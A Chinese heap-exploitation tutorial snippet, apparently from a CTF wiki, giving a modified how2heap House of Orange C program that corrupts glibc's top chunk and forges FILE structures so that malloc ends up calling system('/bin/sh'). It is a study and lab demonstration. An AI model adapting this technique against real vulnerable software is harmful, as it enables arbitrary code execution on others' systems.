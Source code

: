 #### 示例 

修改了 how2heap 的 houseoforange 代码，可以自己动手调试一下。

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int winner ( char *ptr);
int main()
{
    char *p1, *p2;
    size_t io_list_all, *top;
    // unsorted bin attack
    p1 = malloc(0x400-16);
    top = (size_t *) ( (char *) p1 + 0x400 - 16);
    top[1] = 0xc01;
    p2 = malloc(0x1000);
    io_list_all = top[2] + 0x9a8;
    top[3] = io_list_all - 0x10;
    // _IO_str_finish conditions
    char binsh_in_libc[] = "/bin/sh\x00"; // we can found "/bin/sh" in libc, here i create it in stack

    top[0] = ((size_t) &binsh_in_libc + 0x10) & ~1;
    top[7] = ((size_t)&binsh_in_libc); // buf_base

    // house_of_orange conditions
    top[1] = 0x61;
    top[5] = 0x1 ; //_IO_write_ptr
    top[20] = (size_t) &top[18];
    top[21] = 2;
    top[22] = 3;
    top[24] = -1;
    top[27] = (size_t) stdin - 0x33f0 - 0x18;
    top[29] = (size_t) &winner;
        top[30] = (size_t) &top[30];
    malloc(10);
    return 0;
}
int winner(char *ptr)
{ 
    system(ptr);
    return 0;
}
```